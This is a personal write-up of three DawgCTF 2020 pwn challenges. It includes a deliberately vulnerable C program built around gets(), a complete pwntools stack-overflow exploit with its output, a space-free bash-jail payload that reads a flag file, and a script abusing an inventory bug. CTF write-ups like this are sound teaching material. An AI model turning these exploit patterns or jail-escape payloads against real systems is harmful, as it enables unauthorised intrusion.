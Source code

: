 ```yaml
---
title: DawgCTF 2020: a few pwn writeups
slug: dawg-2020-pwn
date: 13/04/2020
---
```


Yesterday I spent a couple of hours on the [DawgCTF 2020](https://umbccd.io/).
I only had time to work on a few pwn tasks. The challenges were nothing special
but I wrote two [pwntools](https://github.com/Gallopsled/pwntools) scripts that
might be worth sharing.

All challenges are remote.


## Bof To The Top

This is a standard buffer overflow. Source code for the vulnerable binary was
given:

```c
#include "stdio.h"
#include "string.h"
#include "stdlib.h"

// gcc -m32 -fno-stack-protector -no-pie bof.c -o bof

void audition(int time, int room_num){
	char* flag = "/bin/cat flag.txt";
	if(time == 1200 && room_num == 366){
		system(flag);
	}
}

void get_audition_info(){
	char name[50];
	char song[50];
	printf("What's your name?\n");
	gets(name);
	printf("What song will you be singing?\n");
	gets(song);
}

void welcome(){
	printf("Welcome to East High!\n");
	printf("We're the Wildcats and getting ready for our spring musical\n");
	printf("We're now accepting signups for auditions!\n");
}

int main(){
	welcome();
	get_audition_info();
	return 0;
}
```

There is a comment that tells us how the binary was compiled. It is a 32-bit,
with no PIE and stack protection disable. We have no information regarding ASLR
but this challenge is not worth many point so we guess it is disabled.

The `get_audition_info` function is the vulnerable one. Indeed, `gets` is
insecure and leads to a stack-based buffer overflow. Lucky us, we will not even
have to inject a shellcode or anything in memory as we can use the `audition`
function that can `cat` the flag for us.

But there is something else! The `audition` function, that we plan to jump to,
receives two parameters. These two `int` variables must have a specific value,
otherwise `system` will not be called for us. One could think that we can
directly jump to the `system` call, that must be located at
`audition+something`, but this is not possible as `flag` will not be
initialized and `system` will be called with a bad pointer as parameter.

We definitely need to pass the `time` and `room` parameters. In order to do so,
we can prepare a payload that is similar to ret2libc. A standard ret2libc
payload looks like so: `AAAAAAAAAA...AAAAAA + SYSTEM_ADDR + RET_ADDR +
BIN_SH_ADDR`. First, there is enough data to reach `EIP`. Then, we overwrite
`EIP` with the address of the function we want to jump to. Finally, we add a
return address (a fake `EIP` save), and our parameters.

Here is the exploit script:

```python
from pwn import *


DEBUG = False

if not DEBUG:
    r = remote(
        host='ctf.umbccd.io',
        port=4000
    )
else:
    r = process([
        'gdb', '-q',
        '/macOS/bof',
    ])

audition = 0x08049182  # Found using nm (one could use pwn.elf too)
tiime = 1200  # First parameter
room_num = 366  # Second parameter

smash_after = 62  # Can be found using pwn.cyclic
payload = b'A' * smash_after + p32(audition) + b'LOOL' + p32(tiime) + p32(room_num)

if DEBUG:
    # r.sendline('b * 0x0804921d')
    r.sendline('r')

log.info(r.recvuntil('name?\n'))
r.sendline(payload)  # When the overflow happens

log.info(r.recvuntil('ing?\n'))
r.sendline('whocares')  # We don't care about the second buffer

if DEBUG:
    r.interactive()
else:
    log.success(r.recvline().decode())  # Outputs the flag
```

The offsets are strictly the same locally and remotely. Also, our guess turned
out correct as there is no ASLR. We get our flag immediately:

```
[+] Opening connection to ctf.umbccd.io on port 4000: Done
[*] b"Welcome to East High!\nWe're the Wildcats and getting ready for our spring musical\nWe're now accepting signups for auditions!\nWhat's your name?\n"
[*] b'What song will you be singing?\n'
[+] DawgCTF{wh@t_teAm?}
```


## Nash

This challenge is some kind of Bash jail. There is a `flag.txt` file in the
current directory. We have to find a way to read it **without using any
space**, as they are stripped from our input.

The first thing that came to my mind is the [`IFS` trick](https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions#bypass-forbidden-spaces):

```
nash> cat${IFS}flag.txt`
```
Unfortunately, `IFS` is not set, and the `{}` are also stripped. A few
Google searchs later, I found another payload:

```
nash> `<flag.txt`
/bin/bash: line 1: DawgCTF{L1k3_H0W_gr3a+_R_sp@c3s_Th0uGh_0mg}: command not found
```

I'm not a Bash guy but from what I understand, the `<` allows to retrieve the
content of `flag.txt`. Then, the backticks introduce a subcommand. Thus, Bash
tries to run a command that is our flag.


## Tom Nook the Capitalist Raccoon

This is an Animal Crossing themed challenge. We can do some business with our
good friend Tom Nook, trading tarantulas for bells... But the only thing that
we really want to buy is the flag. Which costs 420000 bells. That is a lot.

We will not be able to make that much money the legal way so let's be an
average Animal Crossing player and cheat.

Source code is not provided but we have the [compiled binary](https://github.com/toomanybananas/dawgctf-2020-writeups/raw/master/pwn/animal_crossing/animal_crossing).
To be honest, I did not even have to reverse it as I found the bug just by
playing with the remote instance. The actual C source code is [available here](https://github.com/toomanybananas/dawgctf-2020-writeups/blob/master/pwn/animal_crossing/animal_crossing.c)
if you want to make an extended study.

The bug is as follows:

* The game starts
* You buy an item (let's say a tarantula, as it is worth a lot)
* Your inventory is now full
* You sell the tarantula
* It is not removed from you inventory, but you get the bells
* You sell the tarantula
* It is not removed from your inventory, but you get the bells
* ...
* You sell any other item to free some inventory space
* You buy the flag

```python
from pwn import *


r = remote(
    host='ctf.umbccd.io',
    port=4400
)

# Buy
log.info(r.recvuntil('Choice: ').decode())
r.sendline('2')

# A tarantula
log.info(r.recvuntil('\n').decode())
r.sendline('2')

# Inventory is now full

# Sell A LOT of tarantulas
for i in range(100):
    log.info(r.recvuntil('Choice: ').decode())
    r.sendline('1')
    log.info(r.recvuntil('\n').decode())
    r.sendline('5')

# You are now rich

# Sell random item to free some space
log.info(r.recvuntil('Choice: ').decode())
r.sendline('1')
log.info(r.recvuntil('\n').decode())
r.sendline('1')

# Buy flag
log.info(r.recvuntil('Choice: ').decode())
r.sendline('2')
log.info(r.recvuntil('\n').decode())
r.sendline('6')

# Display inventory in order to display flag
log.info(r.recvuntil('Choice: ').decode())
r.sendline('1')
log.info(r.recvuntil('\n').decode())
r.sendline('1')

r.interactive()
```

Tom Nook is not amused.

![Angry Tom Nook](assets/dawg-2020/nook.png)


## Wrapping up

Too bad I could not spend much more time on this CTF. The organizers
published [all the challenges](https://github.com/toomanybananas/dawgctf-2020-writeups)
for us to replay at home fortunately.
